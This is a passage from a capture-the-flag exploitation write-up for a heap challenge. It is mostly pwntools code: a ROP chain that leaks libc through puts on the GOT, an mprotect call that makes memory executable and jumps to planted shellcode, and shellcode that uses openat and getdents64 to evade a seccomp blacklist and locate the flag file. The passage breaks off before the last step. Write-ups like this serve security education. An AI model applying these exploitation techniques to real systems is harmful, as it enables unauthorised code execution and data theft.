 ```python
R = ROP(context.binary)
R.raw(0x48*b'a')
R.puts(context.binary.got['read'])
R.win()
r.sendlineafter(';)\n', R.chain())
context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
```

Once that's done, I can abuse gadgets in libc to convert the `mound_data` memory region into an rwx page:

```python
R = ROP(context.libc)
R.raw(0x48*b'a')
R.mprotect(mound_data.base, 0x400000, 7)
R.call(mound_data.shellcode)
r.sendlineafter(';)\n', R.chain())
```

This only makes sense if `mound_data.shellcode` actually points to an area of user-written shellcode. I handled this by writing shellcode to `mound_data` using `add()`, long before the mcache dup happens:

```python
# ... everything up until the first few add() calls ...
sc = ... # I'm about to cover this part.
sc = asm(sc) # don't call asm() twice
add(len(sc), 8, sc) # dump shellcode somewhere in mound_data for later use
# ... everything else, e.g. getting mcache dup ...
```

Figuring out _what_ shellcode to run isn't too difficult, if you have a [syscall reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) in hand. This challenge shows why you shouldn't use a seccomp blacklist: `open` might be banned, but [openat](https://linux.die.net/man/2/openat) certainly isn't. I'll start off with some shellcode to open the `/pwn/` folder:

```python
sc = shellcraft.pushstr('/pwn')
sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY)
sc+= 'mov QWORD PTR [{}], rax\n'.format(0xbeef0000000)
sc+= shellcraft.getdents64('rax', 0xbeef0010000, 0x10000) # use getdents() to list a directory
```

After that, I'll apply a basic assembly loop to search for `.txt`:

```python
sc+= shellcraft.mov('rax', 0xbeef0010000)
sc+= 'loop:\n'
sc+= 'inc rax\n'
sc+= 'cmp DWORD PTR [rax], {}\n'.format(u32('.txt'))
sc+= 'jne loop\n'
# End result: *(int*)rax == u32(".txt")
```

Since the flag's filename is always 0x20+4 bytes long, the beginning of the flag filename will be at `rax-0x20` , and I can use `openat` again to write the flag to stdout:
